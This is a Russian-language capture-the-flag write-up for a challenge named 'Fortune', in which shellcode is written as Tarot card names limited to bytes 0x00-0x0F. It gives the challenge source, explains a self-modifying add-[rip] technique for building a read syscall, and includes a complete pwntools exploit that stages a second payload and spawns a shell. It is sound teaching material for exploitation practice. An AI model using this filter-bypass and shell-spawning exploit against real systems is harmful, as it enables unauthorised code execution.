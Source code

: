 # Fortune

## Problem

В данном задании предлагалось написать шелкод названиями старших арканов Таро и запустить его с одним ограничением: для использования было разрешено всего 16 байт.

```c++
std::map<std::string, uint8_t> Cards {
    {  "Fool", 0x00}, {"Magician", 0x01},
    {"Priestess", 0x02}, {"Emperess",0x03},
    {"Emperor", 0x04}, {"Hierophant", 0x05},
    {"Lovers", 0x06}, {"Chariot", 0x07},
    {"Strength", 0x08}, {"Hermit", 0x09},
    {"Wheel_of_fortune", 0x0A}, {"Justice", 0x0B},
    {"Hanged_man", 0x0c}, {"Death", 0x0d},
    {"Temperance", 0x0e}, {"Devil", 0x0f}
};

extern "C" {void run_shellcode(const std::vector<uint8_t> &shellcode) {
    std::cout << "Powering up the deck....." << std::endl;
    unsigned char* code = (unsigned char*) mmap(NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    memcpy(code, shellcode.data(), shellcode.size());

__asm__ (
    ".intel_syntax noprefix\n"  // Switch to Intel syntax
    "push rax\n"
    "mov rax, 0x0\n"
    "mov rbx, 0x0\n"
    "mov rcx, 0x0\n"
    "mov rdx, 0x0\n"
    "mov rdi, 0x0\n"
    "mov rsi, 0x0\n"
    "mov r8, 0x0\n"
    "mov r9, 0x0\n"
    "mov r10, 0x0\n"
    "mov r11, 0x0\n"
    "mov r12, 0x0\n"
    "mov r13, 0x0\n"
    "mov r15, 0x0\n"
    "ret\n"
    ".att_syntax prefix\n"
    :
    :
    : 
);
}
}
```

## Solution

### Идея

Основной идеей решения подобных задач всегда является повторное прочтение в RWX сегмент в обход фильтра. Таким образом нашей задачей будет являться вызов `syscall 0 (read)` со следующими значениями регистров:

 - `RAX` = 0
 - `RDI` = 0
 - `RSI ` = где-то в области шеллкода
 - `RDX` = произвольное большое число.
 
#### Концепция

После нескольких часов поисков и перебора всех возможных разрешенных комбинаций инструкций мы приходим к следующим разрешенным вариантам:
 
 - `add eax, [0x00-0xff]+` - мы можем получить путем сложения чисел, состоящих из байтов 0x00-0xff в eax любое число
 - `syscall`
 - `add [rip], eax` - мы можем положить текущее значение eax по адресу текущей исполняемой инструкции.

И если получить значениях всех OP-кодов достаточно просто, нам все еще потребуется положить в RSI адрес области шеллкода. Для этого мы воспользуемся инструкцией `pop rdi` и будем перебирать значения со стека, пока не найдем подходящее нам. В данном задание эту операцию необходимо было произвести четыре раза.

Полученных притивов должно быть достаточно, чтобы решить задание. Давайте посчитаем, какие числа нам нужно получить, чтобы решить задание

- `pop rsi` = 0x5e
- `mov edi,  0x0` = 0xbf
- `mov edx, 0xf0e` = 0xf0eba - данное число ничем не обосновано, просто его можно получить сложением достаточного числа раз числа, состоящие из байт 0x00-0xff
- `sub rax, rax` = 0xc02948


Итого финальный пэйлоад выглядит следующим образом:
```py
from pwn import *

binary = context.binary = ELF("./chall", checksec=False)
io = binary.process()

# Таблица для преобразования шеллкода в арканы
encoding ={
        0x00:"Fool",
        0x01: "Magician",
        0x02:"Priestess",
0x03:"Emperess",
0x04:"Emperor",
0x05:"Hierophant",
0x06:"Lovers",
0x07:"Chariot",
0x08:"Strength",
0x09:"Hermit",
0x0A:"Wheel_of_fortune",
0x0B:"Justice",
0x0C: "Hanged_man",
0x0D: "Death",
0x0E: "Temperance", 
0x0F: "Devil"
}

# Обратите внимание, что лишний 0x00 байт добавляется, чтобы после сложения с [rip] после желаемой операци не возникало мусорной.

# Набираем - `pop rsi` = 0x5e 
def pop_rsi():
    rsi_pop = asm('add al, 0xf')*6
    rsi_pop += asm('add al, 0x4')
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'
    return rsi_pop


# `mov edi,  0x0` = 0xbf
# Набираем 0xbf - 0x5e

def zero_edi():
    edi_zero = asm('add al, 0xf')*6
    edi_zero += asm('add al, 0x7')
    edi_zero += asm('add dword ptr [rip], eax')
    edi_zero += b'\x00'*5
    return edi_zero

# `mov edx, 0xf0e` = 0xf0eba
# Набираем 0xf0eba - 0xbf
def big_edx():
    edx_big = asm('add eax, 0xf0e0f')
    edx_big += asm('add al,0xf')*15
    edx_big += asm('add al, 0xb')
    edx_big += asm('add dword ptr [rip], eax')
    edx_big += b'\x00'*5
    return edx_big

# `sub rax, rax` = 0xc02948
# Набираем 0xc02948 - 0xf0eba
def zero_rax():
    rax_zero = asm('add eax,0x0f0f0f')*11
    rax_zero += asm('add eax,0xb0f0f')
    rax_zero += asm('add eax, 0x0f0f')*6
    rax_zero += asm('add eax, 0x90f')
    rax_zero += asm('add eax, 0x30f')
    rax_zero += asm('add al, 0x0f')*6
    rax_zero += asm('add al, 0x8')
    rax_zero += asm('add dword ptr [rip], eax')
    rax_zero += b'\x00'*3
    return rax_zero

# syscall read (stdin, shellcodeArea, BIG_EDX)
payload  = pop_rsi()
payload  += zero_edi()
payload  += big_edx()
payload  += zero_rax()
payload  += asm('syscall')

print(io.recvline())
io.recvuntil(b':')

# Кодирование шеллкода в арканы
shellcode = []
for i in payload:
    shellcode.append(encoding[i])
io.sendline(",".join(shellcode))
pause(3)

# NOP-slide чтобы точно попасть в наш шеллкод
payload = asm(shellcraft.nop())*(len(payload)+0x8*5)

# Обыкновенный шеллкод на получение шела, который мы считаем syscall-ом read в обход всех фильтров
payload += asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```
